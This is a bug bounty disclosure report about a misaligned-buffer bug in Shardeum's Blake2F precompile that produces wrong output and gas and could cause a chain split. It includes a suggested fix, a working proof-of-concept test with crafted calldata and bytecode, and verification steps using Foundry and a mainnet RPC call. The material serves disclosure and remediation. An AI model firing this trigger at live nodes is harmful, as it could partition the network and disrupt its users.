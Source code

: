 
# Inconsistent consensus issue for Blake2F precompile execution in the execution layer

Submitted on Mon Jul 22 2024 08:02:09 GMT-0400 (Atlantic Standard Time) by @ret2happy for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33520

Report type: Blockchain/DLT

Report severity: Insight

Target: https://github.com/shardeum/shardeum/tree/dev

Impacts:
- Unintended chain split (network partition)

## Description
## Brief/Intro

There exists a wrong implementation in the precompile `0x9`. When calculate the output  involved with non-zero aligned inputs, the output and the gas result is totally wrong. This would lead to the wrong gas usage and further wrong result with the correct EVM-consensus implemented validator, resulting the network partition.


## Vulnerability Details

In the precompile function of [1], it decodes the `rounds` and the following parameters `hRaw`,`mRaw`,`tRaw` using the beginning buffer of the `data`. However, the `data` buffer could have offset and when the offset is non-zero, the decoded parameter is wrong.  The official definition of the Blake precompile could be found in [2].

```

export function precompile09(opts: PrecompileInput): ExecResult {
  ...

  const rounds = new DataView(data.subarray(0, 4).buffer).getUint32(0) // [1] wrong align for the 
  const hRaw = new DataView(data.buffer, 4, 64)
  const mRaw = new DataView(data.buffer, 68, 128)
  const tRaw = new DataView(data.buffer, 196, 16)
```

Take [1] for example, it decode the first 4 bytes of the data array buffer. However, the byteOffset of the `data` could be non-zero. This result in the wrong memory access (we read the wrong & stale memory data) when calculate the parameter. This further leads to the wrong output result and the gas result.

Hence we need to take `byteOffset` into consideration. Following parameter calculation is an suggested fix:
```
  const rounds = new DataView(data.buffer, data.byteOffset).getUint32(0)
  const hRaw = new DataView(data.buffer, data.byteOffset + 4, 64)
  const mRaw = new DataView(data.buffer, data.byteOffset + 68, 128)
  const tRaw = new DataView(data.buffer, data.byteOffset + 196, 16)
```


## Impact Details

By loading the malicious PoC tx we provided, the contract call result is totally wrong. What's more, the gas calculation is wrong as well. This could lead to the consensus issue within the execution layer. Furthermore, if any dApp using this precompile under this wrong implementation, it could get the wrong & unexpected result, leading to the DoS or fund lock/stolen issue in that case. 

## References

[1] https://github.com/shardeum/shardeum/blob/c7b10c2370028f7c7cbd2a01839e50eb50faa904/src/evm_v2/precompiles/09-blake2f.ts#L184-L187

[2] https://eips.ethereum.org/EIPS/eip-152#12-rounds

        
## Proof of concept
## Proof of Concept

## PoC

I write a PoC which runs transaction on the shardeum network under the `test/testCases` directory:
```
// file: test/testCases/transactionsPoC.test.ts
import { Common, Hardfork} from '@ethereumjs/common'
import { EVM as EthereumVirtualMachine } from '../../src/evm_v2'
import {
  Address, bytesToHex, hexToBytes
} from '@ethereumjs/util'
import { DefaultStateManager } from '@ethereumjs/statemanager'

// eslint-disable-next-line no-undef
describe('Precompiles: BLAKE2F', () => {
  it('BLAKE2F PoC', async () => {
    let evmCommon = new Common({ chain: 'mainnet', hardfork: Hardfork.Istanbul, eips: [3855] })
    const calldata =
            '0x0000000c28c9bdf267e6096a3ba7ca8485ae67bb2bf894fe72f36e3cf1361d5f3af54fa5d182e6ad7f520e511f6c3e2b8c68059b3dd8338ed89de6791854126751ac933302810c04147014e9eb472e4dbc09d3c96abb531c9ae39c9e6c454cb83913d688795e237837d30258d11ea7c75201003000454cb83913d688795e237837d30258d11ea7c752011af5b8015c64d39ab44c60ead8317f9f5a9b6c4c01000000000100ca9a3b000000000000000000000000000000000000000000000000000000008000000000000000000000000000000000'
    const customEVM = new EthereumVirtualMachine({
      common: evmCommon,
      stateManager: new DefaultStateManager()
    })
    const code = `0x366000602037600080366020600060095AF1593D6000593E3D90F3`
    await customEVM.stateManager.putContractCode(Address.zero(), hexToBytes(code))
    try {
      let runTxResult = await customEVM.runCall(
        {
          data: hexToBytes(calldata),
          to: Address.zero()
        }
      )
      console.log('return value: ', bytesToHex(runTxResult.execResult.returnValue))
      // correct result:
      // 0x772acbd3f30b0c3f5f53e8b836ab406f7d8d46fd4b27e2ce2ecd67dbf18c958741e2c49d1f1b1a463907a484f970c057dab9684062b82fda69e8a0057e14766f
    } finally {
      customEVM.cleanUp()
    }

  })
})

```

Executing this unit test using `jest test/testCases/transactionsPoC.test.ts`, we would get:
```
  Precompiles: BLAKE2F
    ✓ BLAKE2F PoC (18 ms)

  console.log
    return value:  0x08c9bcf367e6096a3ba7ca8485ae67bb2bf894fe72f36e3cf1361d5f3af54fa5d1487c967f520e511f6c3e2b8c68059b6bbd41fbabd9831f79217e1319cde05b

      at Object.<anonymous> (test/testCases/transactionsPoC.test.ts:27:15)

```
We observe that the return value is `0x08c9bcf367e6096a3ba7ca8485ae67bb2bf894fe72f36e3cf1361d5f3af54fa5d1487c967f520e511f6c3e2b8c68059b6bbd41fbabd9831f79217e1319cde05b`. However, the correct return value should be `0x772acbd3f30b0c3f5f53e8b836ab406f7d8d46fd4b27e2ce2ecd67dbf18c958741e2c49d1f1b1a463907a484f970c057dab9684062b82fda69e8a0057e14766f`. (We will later explain how we get the correct value/ ground truth.)

By applying the suggested fix in the bug description, we get the correct execution result.

#### Ground truth
We use a foundry test to get the correct result since it uses ethereum mainnet as the execution backend. Following is the test file:
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";

contract BlakePoCTest is Test {
    function setUp() public {}
    function testBlakeResult() public {
        address target = address(0x0);
        bytes memory code = hex"366000602037600080366020600060095AF1593D6000593E3D90F3";
        vm.etch(
            target , code 
        );
        (bool success, bytes memory result) = target.call(hex"0000000c28c9bdf267e6096a3ba7ca8485ae67bb2bf894fe72f36e3cf1361d5f3af54fa5d182e6ad7f520e511f6c3e2b8c68059b3dd8338ed89de6791854126751ac933302810c04147014e9eb472e4dbc09d3c96abb531c9ae39c9e6c454cb83913d688795e237837d30258d11ea7c75201003000454cb83913d688795e237837d30258d11ea7c752011af5b8015c64d39ab44c60ead8317f9f5a9b6c4c01000000000100ca9a3b000000000000000000000000000000000000000000000000000000008000000000000000000000000000000000");
        console.log("success:", success);
        console.logBytes(result);
    }
}
```
Install foundry and run:
```
forge test -vvvv
```
You would get the return from running this code:
```
Logs:
  success: true
  0x772acbd3f30b0c3f5f53e8b836ab406f7d8d46fd4b27e2ce2ecd67dbf18c958741e2c49d1f1b1a463907a484f970c057dab9684062b82fda69e8a0057e14766f
```

Also note that the `0x0` address code (i.e., `0x366000602037600080366020600060095AF1593D6000593E3D90F3`) is doing the following things:
```
- copy calldata into memory, with offset 0x20
- call Blake2F precompile with the calldata
- return the data from precompile
```
The asm code of that bytecode is:
```
0x0: CALLDATASIZE
0x1: PUSH1     0x0
0x3: PUSH1     0x20
0x5: CALLDATACOPY
0x6: PUSH1     0x0
0x8: DUP1      
0x9: CALLDATASIZE
0xa: PUSH1     0x20
0xc: PUSH1     0x0
0xe: PUSH1     0x9
0x10: GAS       
0x11: CALL      
0x12: MSIZE     
0x13: RETURNDATASIZE
0x14: PUSH1     0x0
0x16: MSIZE     
0x17: RETURNDATACOPY
0x18: RETURNDATASIZE
0x19: SWAP1     
0x1a: RETURN    
```

You can also verify the result by the RPC call:
```
curl https://eth-mainnet.g.alchemy.com/v2/YOUR_RPC_KEY \
          -X POST \
          -H "Content-Type: application/json" \
          -d '{"jsonrpc":"2.0","method":"eth_call","params": [{"to": "0x0000000000000000000000000000000000000009","data": "0x0000000c28c9bdf267e6096a3ba7ca8485ae67bb2bf894fe72f36e3cf1361d5f3af54fa5d182e6ad7f520e511f6c3e2b8c68059b3dd8338ed89de6791854126751ac933302810c04147014e9eb472e4dbc09d3c96abb531c9ae39c9e6c454cb83913d688795e237837d30258d11ea7c75201003000454cb83913d688795e237837d30258d11ea7c752011af5b8015c64d39ab44c60ead8317f9f5a9b6c4c01000000000100ca9a3b000000000000000000000000000000000000000000000000000000008000000000000000000000000000000000"}, "latest"],"id":1}'
```
Running it you would get:
```
{"jsonrpc":"2.0","id":1,"result":"0x772acbd3f30b0c3f5f53e8b836ab406f7d8d46fd4b27e2ce2ecd67dbf18c958741e2c49d1f1b1a463907a484f970c057dab9684062b82fda69e8a0057e14766f"}%                                                                                                   
```